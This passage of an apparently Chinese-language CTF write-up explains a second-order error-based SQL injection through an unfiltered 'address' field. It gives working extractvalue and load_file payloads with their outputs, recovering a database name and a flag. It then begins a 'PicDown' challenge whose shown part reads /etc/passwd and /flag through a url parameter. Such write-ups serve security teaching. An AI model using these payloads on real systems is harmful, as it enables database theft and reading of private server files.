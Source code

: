 ```php
    $msg = "信息不全";
}
?>
```

**这里注意到`confirm`中对`address`参数是没有过滤的**, 这里后续的操作是将用户提交的`user_name`, `address`, `phone`加入到数据表中(23行)

在`change`的21行, 执行更新`address`功能时会从表中查询之前存进去的`address`,也就是 `old_address`=`$row['address']`

那么如果我们在`confirm`中将payload提交到不经过滤的`address`中, 然后让它存进表里

在`change`中就可能会出现报错

使用报错注入: 这里先将参数提交给`confirm.php`,然后去`change`中,输入同样的用户名和密码,触发查询,查看报错信息

```
user_name=qqq&phone=111&address=3'&&extractvalue(1,concat(0x7e,(database()),0x7e))#
user_name=qq&phone=11&address=' and extractvalue(1,concat(0x7e,(database()),0x7e))#
访问change.php输入前面的name和phone后, 输出:errorXPATH syntax error: '~ctfusers~'


user_name=xc&phone=234&address=' and extractvalue(1,concat(0x7e,(select load_file('/flag.txt')),0x7e))#
访问change.php输入前面的name和phone后,输出:errorXPATH syntax error: '~flag{e62bb712-dc5d-4f48-bd21-87'

user_name=xccc&phone=2344&address=' and extractvalue(1,concat(0x7e,(select replace((select load_file('/flag.txt')),"e62bb712-dc5d-4f48-bd21-87","")),0x7e))#
访问change.php输入前面的name和phone后输出: flag{58112d0ecf}
那么拼接成最后的flag:
flag{e62bb712-dc5d-4f48-bd21-8758112d0ecf}
```





<br>

***

<br>

# [proc,python反弹shell]PicDown

就给了一个输入框,根据参数名的话这里是让输入url

这里输入以下百度,能够直接下载网页源码:

```
page?url=http://www.baidu.com
```

接着尝试使用`http://`或`file://`读取本地文件, 都没有成功, 但是这里直接输入文件名竟然能下载:

```
page?url=/etc/passwd
page?url=/flag
```
